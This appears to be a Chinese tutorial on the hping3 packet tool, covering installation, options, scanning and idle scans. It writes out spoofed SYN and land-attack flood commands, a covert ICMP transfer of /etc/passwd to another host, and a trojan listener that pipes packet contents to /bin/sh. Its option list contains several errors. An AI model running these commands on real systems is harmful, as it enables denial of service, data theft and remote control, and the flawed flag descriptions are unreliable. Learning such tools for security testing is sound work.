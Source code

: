 hping3
===

测试网络及主机的安全

## 说明

**hping** 是用于生成和解析TCPIP协议数据包的开源工具。创作者是Salvatore Sanfilippo。目前最新版是hping3，支持使用tcl脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测

### 安装  

```
yum install libpcap-devel tc-devel
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h
wget http://www.hping.org/hping3-20051105.tar.gz
tar zxvf hping3-20051105.tar.gz
cd hping3-20051105
./configure
make
make install
```

  

```
-H --help 显示帮助
-v -VERSION 版本信息
-c --count count 发送数据包的次数 关于countreached_timeout 可以在hping2.h里编辑
-i --interval 包发送间隔时间（单位是毫秒）缺省时间是1秒,此功能在增加传输率上很重要,在idle/spoofing扫描时此功能也会被用到,你可以参考hping-howto获得更多信息-fast 每秒发10个数据包
-n -nmeric 数字输出，象征性输出主机地址
-q -quiet 退出
-I --interface interface name 无非就是eth0之类的参数
-v --verbose 显示很多信息，TCP回应一般如：len=46 ip=192.168.1.1 flags=RADF seq=0 ttl=255 id=0 win=0 rtt=0.4ms tos=0 iplen=40 seq=0 ack=1380893504 sum=2010 urp=0
-D --debug 进入debug模式当你遇到麻烦时，比如用HPING遇到一些不合你习惯的时候，你可以用此模式修改HPING，（INTERFACE DETECTION,DATA LINK LAYER ACCESS,INTERFACE SETTINGS,.......）
-z --bind 快捷键的使用
-Z --unbind 消除快捷键
-O --rawip RAWIP模式，在此模式下HPING会发送带数据的IP头
-1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用--ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文
-2 --udp UDP 模式，缺省下，HPING会发送UDP报文到主机的0端口，你可以用--baseport --destport --keep选项指定其模式
-9 --listen signatuer hping的listen模式，用此模式，HPING会接收指定的数据
-a --spoof hostname 伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了
-t --ttl time to live 可以指定发出包的TTL值
-H --ipproto 在RAW IP模式里选择IP协议
-w --WINID UNIX ,WINDIWS的id回应不同的，这选项可以让你的ID回应和WINDOWS一样
-r --rel 更改ID的，可以让ID曾递减输出，详见HPING-HOWTO
-F --FRAG 更改包的FRAG，这可以测试对方对于包碎片的处理能力，缺省的“virtual mtu”是16字节
-x --morefrag 此功能可以发送碎片使主机忙于恢复碎片而造成主机的拒绝服务
-y -dontfrag 发送不可恢复的IP碎片，这可以让你了解更多的MTU PATH DISCOVERY
-G --fragoff fragment offset value set the fragment offset
-m --mtu mtu value 用此项后ID数值变得很大，50000没指定此项时3000-20000左右
-G --rroute 记录路由，可以看到详悉的数据等等，最多可以经过9个路由，即使主机屏蔽了ICMP报文
-C --ICMPTYPE type 指定ICMP类型，缺省是ICMP echo REQUEST
-K --ICMPCODE CODE 指定ICMP代号，缺省0
--icmp-ipver 把IP版本也插入IP头
--icmp-iphlen 设置IP头的长度，缺省为5（32字节）
--icmp-iplen 设置IP包长度
--icmp-ipid 设置ICMP报文IP头的ID，缺省是RANDOM
--icmp-ipproto 设置协议的，缺省是TCP
-icmp-cksum 设置校验和
-icmp-ts alias for --icmptype 13 (to send ICMP timestamp requests)
--icmp-addr Alias for --icmptype 17 (to send ICMP address mask requests)
-s --baseport source port hping 用源端口猜测回应的包，它从一个基本端口计数，每收一个包，端口也加1，这规则你可以自己定义
-p --deskport [+][+]desk port 设置目标端口，缺省为0，一个加号设置为:每发送一个请求包到达后，端口加1，两个加号为：每发一个包，端口数加1
--keep 上面说过了
-w --win 发的大小和windows一样大，64BYTE
-O --tcpoff Set fake tcp data offset. Normal data offset is tcphdrlen / 4.
-m --tcpseq 设置TCP序列数
-l --tcpck 设置TCP ack
-Q --seqnum 搜集序列号的，这对于你分析TCP序列号有很大作用
```

### Hping3功能  

Hping3主要有以下典型功能应用：

####  防火墙测试  

使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考：http://0daysecurity.com/articles/hping3_examples.html

测试防火墙对ICMP包的反应、是否支持traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）

```
hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
```

#### 端口扫描  

Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。以下示例可用于探测目标机的80端口是否开放：

```
hping3 -I eth0  -S 192.168.10.1 -p 80
```

其中`-I eth0`指定使用eth0端口，`-S`指定TCP包的标志位SYN，`-p 80`指定探测的目的端口

hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描

#### Idle扫描  

Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现

该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态

#### 拒绝服务攻击  

使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包

```
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

其他攻击如smurf、teardrop、land attack等也很容易构建出来

#### 文件传输  

Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

```
hping3 192.168.1.159--listen signature --safe  --icmp
```

监听ICMP包中的签名，根据签名解析出文件内容

在发送端使用签名打包的ICMP包发送文件：

```
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
```

将`/etc/passwd`密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)

#### 木马功能  

如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行

在木马启动端：

```
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
```

在远程控制端：

```
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
```

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作


